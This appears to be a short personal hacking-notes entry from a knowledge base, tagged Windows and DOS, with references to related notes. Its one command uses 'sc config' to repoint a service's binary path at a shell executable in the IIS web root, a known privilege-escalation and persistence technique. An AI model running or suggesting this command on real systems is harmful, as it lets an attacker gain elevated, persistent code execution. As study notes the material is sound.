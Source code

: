 # dos commands services sc set binary path
sc config SVC_NAME binpath= "c:\inetpub\shell.exe"

# References
- [20221003151115](/zet/20221003151115/README.md) dos commands services sc
- ~/kb/hacking/windows/dos-and-powershell-enumeration-quick.md

Tags:
    #assorted #hacking #windows #dos
